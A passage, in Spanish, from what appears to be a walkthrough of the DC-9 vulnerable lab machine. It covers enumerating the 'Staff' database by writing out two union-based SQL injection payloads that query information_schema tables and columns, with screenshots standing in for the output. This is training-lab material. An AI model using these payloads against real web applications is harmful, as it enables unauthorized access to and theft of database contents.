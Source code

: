 Obtenemos un listado de usuarios y contraseñas pero no son validas en el login de la web por lo que pasamos a enumerar la base de datos Staff de la misma forma que hemos hecho con users.

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='Staff'-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%206.png)

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='Users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%207.png)
